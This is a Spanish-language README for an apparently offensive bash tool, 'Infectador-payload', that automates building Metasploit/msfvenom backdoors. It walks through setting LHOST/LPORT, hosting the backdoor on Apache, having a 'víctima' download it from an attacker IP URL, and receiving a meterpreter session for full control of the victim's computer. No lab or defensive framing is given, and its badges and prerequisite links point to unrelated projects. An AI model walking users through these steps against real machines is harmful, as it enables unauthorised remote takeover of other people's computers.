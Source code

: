 # Infectador-payload

[![GoDoc](https://godoc.org/github.com/moby/buildkit?status.svg)](https://godoc.org/github.com/moby/buildkit/client/llb)
[![Build Status](https://github.com/moby/buildkit/workflows/build/badge.svg)](https://github.com/moby/buildkit/actions?query=workflow%3Abuild)
[![Go Report Card](https://goreportcard.com/badge/github.com/moby/buildkit)](https://goreportcard.com/report/github.com/moby/buildkit)
[![codecov](https://codecov.io/gh/moby/buildkit/branch/master/graph/badge.svg)](https://codecov.io/gh/moby/buildkit)

Herramienta perfecta para crear cargas utiles (Backdoors) a una alta velocidad, esta herramienta preside de diferentes opciones, incluiendo la opcion de poder subir tu carga util a un servidor web (apache2).

![backdoor](https://user-images.githubusercontent.com/69093629/104139012-b4ed6500-53a8-11eb-933c-95a869b21c6a.png)

- **INTERFAZ: Grafica**

- **IMPORTANTE: Para utilizar esta herramieta debes tener conocimientos medios en Linux ya que sino no sabras que es lo que estas haciendo.**

- **HERRAMIENTA: Automatizada**

## Pre-requisitos 📋

* [Metaploit](http://www.dropwizard.io/1.0.2/docs/) 
* [xterm](http://www.dropwizard.io/1.0.2/docs/) 

**Instalar Metasploit**
```
sudo apt-get install -y postgresql
```
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```
**Instalar Xterm**
```
apt-get install xterm 
```
## Instalacion ✅
```
git clone https://github.com/WackyHacker/Infectador-payload
```
```
cd Infectador-payload 
```
```
sudo su
```
```
bash Infectador-payload.sh
```

## Construido con 🛠️

* [Metasploit](https://www.metasploit.com/) - Despliege de carga util
* [Msfvenom](https://www.metasploit.com/) - Creador de cargas utiles
* [Apache2](https://httpd.apache.org/) - Servidor web

## Autor ✒️

* **WackyHacker** - *Todo el proyecto* - [WEIK](https://github.com/WackyHacker)

## Licencia 📄

Este proyecto esta bajo Licencia - mira el archivo [License.md](https://github.com/WackyHacker/Infectador-payload/blob/master/License.md) para mas detalles

## ¿Como funciona?

Antes de ejecutar la herramienta con ```sudo bash Infectador-payload```, ejecuta primero ```sudo su``` y después ejecuta ```bash Infectador-payload```, si no se hace puede que de problemas en el futuro.


![Captura de pantalla (34)](https://user-images.githubusercontent.com/69093629/104134506-41d4f600-538a-11eb-8aff-79a331979e98.png)


Una vez la herramienta ya esta ejecutada correctamente, se vera algo asi.


![Captura de pantalla (32)](https://user-images.githubusercontent.com/69093629/104134712-c5431700-538b-11eb-8f40-816c6b25a571.png)


Utilizarla es muy sencillo solo hay que seleccionar la opción a utilizar (la ultima esta en mantenimiento), una vez elegida debemos seleccionar la carga útil de nuestra preferencia.

![videosito](https://user-images.githubusercontent.com/69093629/104136758-66d06580-5398-11eb-9526-58302e9f286b.gif)

Una vez elegidas las opciones de preferencia a utilizar, hay que escribir el ```LHOST=[IP]``` , ```LPORT=[PUERTO]```>[Recomendable: 4444], el nombre de tu Backdoor sin su extensión [EX: exe, py] , y finalmente la ruta donde quieres guardar el Backdoor (ojo si eliges que el ataque se efectúe fuera de la red LAN >ngrok< la víctima no podra descargar e instalar el Backdoor a menos que este conectada en la misma red WI-FI que tu) si eliges sin querer subir tu Backdoor a un servidor apache2, para arreglarlo o pulsamos CTRL + C para salir de la herramienta, o puedes acceder a la ruta donde está alojado el servidor apache2 con este comando ```cd /var/www/html/``` y tu Backdoor estará ahí, para no tener problemas, cuando te pida que digites una ruta para guardar el Backdoor, pulsa 'ENTER' y se te guardará automáticamente en el mismo directorio que estás ahora mismo en la carpeta Backdoors.


Y se empezará a crear el Backdoor satisfactoriamente...

![video2](https://user-images.githubusercontent.com/69093629/104136537-2cb29400-5397-11eb-8d1d-3ffdea3bd598.gif)

Una vez termine de crearse la carga util nos hara dos preguntas la primera es '¿Quieres eliminar el Backdoor...?' le pondremos que no de lo contrario 
nos lo eliminara y tendremos que crear uno de nuevo, la segunda es '¿Quieres iniciar Metasploit?' aqui puedes o poner que si o abrir una nueva terminal y abrirlo manualmente.

![Captura de pantalla (42)](https://user-images.githubusercontent.com/69093629/104138852-61c6e280-53a7-11eb-806e-595e7e76e1f7.png)

Una vez todo hecho quedaria algo asi:

![Captura de pantalla (45)](https://user-images.githubusercontent.com/69093629/104149184-876ae080-53d5-11eb-9dfe-7e5966302165.png)

Ahora solo faltaria copiar la seccion que pone 'COPIE Y PEGUE ESTO EN METASPLOIT' lo copiamos y lo pegamos o lo hacemos manualmente, una vez hecho se nos quedaria en escucha nuestra carga util. Ahora iremos a nuestro ordenador victima y instalaremos la carga util de esta manera ``` http://[IP ATACANTE]/[nombre.exe] ``` 

![Captura de pantalla (46)](https://user-images.githubusercontent.com/69093629/104138953-355f9600-53a8-11eb-8fbb-5cd5825e6b06.png)

Una vez el Backdoor instalado a nuestro ordenador victima le llegara una conexion 'meterpreter' eso quiere decir que ya tendremos control total del ordenador victima.

![Captura de pantalla (47)](https://user-images.githubusercontent.com/69093629/104149114-5d192300-53d5-11eb-9c12-d6a2944c5568.png)

¡Dejame una ★ si te ha servido!




